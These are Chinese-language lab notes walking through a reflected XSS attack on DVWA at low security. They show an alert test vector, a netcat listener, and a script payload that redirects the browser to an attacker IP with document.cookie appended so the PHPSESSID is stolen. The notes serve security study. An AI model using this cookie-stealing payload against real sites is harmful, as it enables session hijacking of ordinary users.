 ## 跨站脚本技术XSS(Cross-Site Scripting)
1. 之前的攻击目标是服务器，而XSS目标是浏览网站的普通人
2. 通过XSS可以偷到登陆凭证(Cookies)、伪装成他们进行操作、导向假网站
## 攻击流程
1. 漏洞侦测
    - DVWA Security的安全级别设置为low
    - XSS(Reflected)功能模块，提交经典的XSS测试向量:`<script>alert('XSS')</script>`，浏览器呈现一个内容为"XSS"的警告对话框，说明服务器未对输入进行充分过滤，而是直接嵌入HTML响应中。浏览器解析到`<script>`元素后，即刻执行内部的JavaScript代码。
2. 攻击环境配置与Payload(有效载荷)构建
    - Kali Linux终端，执行`nc -lvp 1234`启动该监听服务，`nc`执行`netcat`，`-l`启动监听模式，`-v`启动详细输出模式，`-p 1234`指定监听的端口号为1234
    - `<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
    - Payload逻辑：强制浏览器重定向至一个新的URL，该URL指向攻击机的IP地址及监听端口1234，通过`document.cookie`获取的Cookie字符串，将作为查询参数(`?cookie=`)附加到URL的末尾
3. 结果观测
    - **浏览器端：**页面发生一次快速重定向，并可能由于`netcat`服务无法提供有效的HTTP响应而显示连接错误
    - **攻击机终端：**切换至运行`netcat`的终端窗口，可以观测到一条新的HTTP GET请求，包含了被盗取的Cookie信息
    - **结论：**`PHPSESSID=...`部分的成功接收，标志着用户的会话Cooie已被成功窃取
      <img width="666" height="244" alt="image" src="https://github.com/user-attachments/assets/d90833f9-bd13-401d-a5fe-a816462eb56f" />  
## 总结

